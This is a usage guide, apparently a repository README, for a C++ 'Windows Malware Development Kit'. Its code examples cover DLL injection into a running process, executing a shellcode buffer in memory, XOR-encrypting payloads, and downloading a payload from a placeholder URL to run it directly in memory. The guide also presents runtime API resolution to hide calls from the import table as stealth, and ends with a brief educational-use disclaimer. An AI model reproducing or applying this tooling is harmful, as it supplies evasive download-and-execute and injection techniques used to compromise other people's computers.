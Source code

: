 # Windows Malware Development Kit (MDK) - Usage Guide

The **Windows Malware Development Kit (MDK)** provides a framework for interacting with Windows processes, memory, hashing, and the Windows registry. This guide covers the core functionality of the framework with practical examples.

### API Evasion
MDK directly resolves (some) API calls instead of linking them at compile-time, preventing them from appearing in the Import Address Table (IAT). This allows for stealthier execution by dynamically locating and invoking functions at runtime.

---

## Installation
Ensure you have the required dependencies set up before using MDK.

```cpp
#include <mdk.h>
```

Link against the necessary libraries when compiling your project.

## Features & Usage

### 1. Process Management
MDK allows interacting with Windows processes and their threads.

#### Example:
```cpp
// Create a new process object
auto process = mdk::process("notepad.exe");

// Access process attributes
process.handle;
process.pid;
process.threads();

// Enumerate process threads
for (mdk::thread thread : process.threads())
{
    // Access thread attributes
    thread.handle;
    thread.tid;
}
```

### 2. DLL Injection and API Calls
MDK supports DLL injection and dynamic function resolution.

#### Example:
```cpp
// Create a new process
auto notepad = mdk::process("Notepad.exe");

// Load a DLL
auto dll = mdk::dll("kernel32.dll");

// Inject the DLL into the process
notepad.inject(&dll);

// Load user32.dll
auto dll = mdk::dll("user32.dll");

// Locate and execute MessageBoxW
(*(void(*)(int, LPCSTR, LPCSTR, int)) dll.find("MessageBoxW"))(0, "Injected Message", "MDK Example", 0);

// Call MessageBoxA from user32.dll (simplifies the above)
dll.call<void>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// Same as above but with explicit typing
dll.call<VOID, INT, LPCSTR, LPCSTR, INT>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// DLL attributes
dll.handle;
dll.name;
dll.size;
```

### 3. Memory Buffers
MDK provides various buffer management functionalities.

#### Example:
```cpp
// Create buffers with different initialization states
auto i = mdk::buffer();       // Single-byte buffer
auto ii = mdk::buffer(32);    // 32-byte uninitialized buffer

// Create a buffer with predefined data
unsigned char shellcode[12] = "\x48\x65\x6C\x6C\x6F\x20\x57\x6F\x72\x6C\x64";
auto buf = mdk::buffer(&shellcode, 12); // 12-byte initialized buffer

// Access buffer attributes
buf.file;    // Memory-mapped file
buf.handle;
buf.size;

// Execute the buffer in memory
buf.execute();
```

### 4. Encryption and Hashing
MDK allows encrypting buffers using built-in algorithms.

#### Example:
```cpp
// Create an XOR encryption algorithm with a 32-byte key
auto algorithm = mdk::hash::xor_(32);

// Encrypt the buffer in memory
buf.encrypt(&algorithm);
```

### 5. Internet Payload Downloading
MDK enables downloading and executing payloads directly in memory.

#### Example:
```cpp
// Create an internet handler
auto internet = mdk::internet();

// Download payload into a buffer
auto buffer = internet.download("http://example.com/payload", 512);

// Execute the downloaded buffer
buffer.execute();

// Internet attributes
internet.handle;
```

### 6. Registry Manipulation
MDK enables reading and writing to the Windows registry.

#### Example:
```cpp
// Define a buffer containing data to write
unsigned char data[] = "MDK Registry Example";
auto buffer = mdk::buffer(data, sizeof(data));

// Open a registry key
auto registry = mdk::registry(HKEY_CURRENT_USER, "Software\Example");

// Write data to the registry
registry.set("ExampleKey", &buffer);

// Retrieve a registry value
mdk::buffer result = registry.get("Desktop", "Wallpaper");
```

### 7. Static Library Access
MDK statically defines commonly used libraries for minimal memory overhead.

#### Example:
```cpp
// Access predefined libraries
mdk::nt().kernel32;
mdk::nt().wininet;
mdk::nt().advapi32;

// Example: Call GetProcessVersion via kernel32
auto version = mdk::nt().kernel32.call<DWORD>("GetProcessVersion", 0);
```

## Disclaimer
This framework is provided for educational and research purposes **only**. Unauthorized usage for malicious intent is strictly prohibited.


